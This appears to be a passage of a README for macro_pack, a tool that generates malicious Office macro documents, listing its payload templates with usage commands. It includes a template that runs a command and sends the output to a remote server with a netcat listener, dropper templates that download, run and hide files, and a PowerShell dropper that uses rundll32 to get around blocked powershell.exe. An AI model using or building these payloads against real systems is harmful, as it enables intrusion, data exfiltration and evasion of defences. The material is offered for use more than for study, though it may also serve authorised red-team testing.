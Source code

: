 ```   
                   If no auto start function, use --start-function option to indicate which macro to run.
```


## Template usage
  
Templates can be called using  -t, --template=TEMPLATE_NAME combined with other options.  
Here are all the available templates.

            
### HELLO  
Just print a hello message and awareness about macro  
Give this template the name or email of the author   
  -> Example: ```echo "@Author" | macro_pack.exe -t HELLO -G hello.pptm```

### CMD
Execute a command 
Give this template a command line
  -> Example (pop calc.exe from and xslt file):  ```echo "calc.exe" | macro_pack.exe -t CMD -G cmd.xsl```
  
### REMOTE_CMD
Execute a command line and send result to remote http server  
Give this template the server url and the command to run  
  -> Example:  ```echo "http://192.168.0.5:7777" "dir /Q C:" | macro_pack.exe -t CMD -o -G cmd.doc``` 
   
```bash
# Catch result with any webserver or netcat
nc -l -p 7777
```
            
### DROPPER
Download and execute a file.  
Give this template the file url and the target file path  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER -o -G dropper.xls```
  
        
### DROPPER2
Download and execute a file. File attributes are also set to system, read-only, and hidden.  
Give this template the file url and the target file path.  
  -> Example:  ```echo <file_to_drop_url> "<download_path>" | macro_pack.exe -t DROPPER2 -o -G dropper.xlsm```
   
        
### DROPPER_PS
Download and execute Powershell script using rundll32 (to bypass blocked powershell.exe).  
Note: This payload will download PowerShdll from Github.  
Give this template the url of the powershell script you want to run  
  -> Example:  ```echo "<powershell_script_url>" | macro_pack.exe -t DROPPER_PS -o -G powpow.doc```
 